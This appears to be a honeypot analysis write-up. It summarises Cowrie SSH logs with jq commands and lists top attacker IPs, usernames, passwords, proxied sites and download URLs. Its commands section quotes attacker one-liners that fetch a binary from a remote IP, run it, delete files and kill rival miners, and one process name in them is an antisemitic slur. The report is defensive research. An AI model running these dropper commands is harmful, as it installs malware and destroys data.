 ### Successful Login IPs
```ruby
    1449 "194.88.107.163"
    821 "45.227.255.163"
    674 "5.188.86.174"
    643 "62.112.11.86"
    581 "45.227.255.205"
    356 "190.2.144.45"
    300 "109.236.89.61"
    294 "89.39.105.84"
    286 "62.112.11.8"
    286 "5.182.39.64"
```
The following command was used to gather the top 10 Succesful IPs that were able to login.
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.success")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`


### Failed Login IPs
```ruby
     44 "199.195.251.205"
      8 "45.227.254.10"
      2 "47.61.62.102"
      2 "194.165.16.89"
      2 "182.84.124.87"
      2 "143.198.220.67"
      2 "119.45.134.38"
      1 "95.70.166.88"
      1 "89.22.183.153"
      1 "89.163.150.234"
```
The following command was used to gather the top 10 IPs that failed to gain access. 
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.login.failed")) .src_ip' | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 usernames used
```ruby
   9566 "root"
     24 "admin"
     18 "user"
     16 "ubuntu"
     14 "test"
     12 "git"
     10 "postgres"
      8 "tester"
      8 "deploy"
      7 "oracle"
```
The folowing command was used to gather the top 10 usernames.
`cat cowrie.json* | jq '. | select(.username) | .username'  | sort | uniq -c | sort -bgr | head -10`


### Top 10 passwords used
```ruby
  7238 "admin"
   1528 "password"
    671 ""
     50 "alpine"
     43 "123"
     36 "1234"
     24 "123456"
     13 "root"
     11 "test"
     11 "12345"
```

The following command was used to gather the top Passwords. 
`cat cowrie.json* | jq '. | select(.password) | .password'  | sort | uniq -c | sort -bgr | head -10`

### Top 10 Commands
```ruby
     17 "rm -rf x86_64; cd /tmp; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; nc 1 1;"
     17 "cd /tmp; rm -rf x86_64; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; pkill cnrig; pkill xmrig; pkill YDEdr; pkill ip; pkill fuckjewishpeopl; pkill x-8.6-.ISIS; pkill x86_64; pkill x86;"
      7 "uname -a"
      5 "which ls"
      5 "w"
      5 "uname -m"
      5 "uname"
      5 "top"
      5 "ls -lh $(which ls)"
      5 "lscpu | grep Model"
```
The following command was used to gather this information.
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.command.input")) | .input' | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 TCP IP
The list contains a list of websites that was visited by people that were using the honeypot as a proxy
```ruby
   raker6944 "ip-who.com"
   4110 "i.instagram.com"
   4014 "23.235.255.50"
   4007 "www.google.ru"
   3282 "www.google.com"
   3224 "67.205.145.217"
   2499 "rogers-fido.janraincapture.com"
   2134 "ya.ru"
   2101 "23.52.19.209"
   1849 "208.95.112.1"

```
The following command was used to gathered the top 10 sites that were visited using the proxy. 
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.direct-tcpip.request")) .dst_ip' | sort | uniq -c | sort -bgr | head -n 10`

### Top files that was downloaded
```ruby
      5 "/root/.ssh/authorized_keys"
      2 ""
```
The following command was ued to gather the top 10 files that were downloaded. 
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .destfile' |  grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`

### Top 10 URLs
```ruby
    102 "http://107.172.249.148/x86_64"
      2 "http://71.127.148.69/.x/2sh"
      2 "http://71.127.148.69/.x/1sh"
      1 "http://71.127.148.69/.x/3sh"
```

The following command was used to gather URLS that were used to download files. 
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`

